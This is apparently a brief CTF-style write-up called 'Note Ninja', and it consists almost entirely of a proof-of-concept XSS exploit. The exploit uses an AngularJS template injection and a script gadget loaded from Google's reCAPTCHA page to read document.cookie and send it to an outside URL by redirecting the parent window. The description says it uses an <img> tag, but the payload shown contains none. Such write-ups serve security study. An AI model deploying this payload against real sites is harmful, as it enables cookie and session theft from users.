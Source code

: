 # Note Ninja 

## Exploit

A sample POC exploit using <img> tag.

```
++++++++++++++++++++++++++++++++++++++
<p>&#91;[3*3]]</p>

<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
++++++++++++++++++++++++++++++++++++++
```
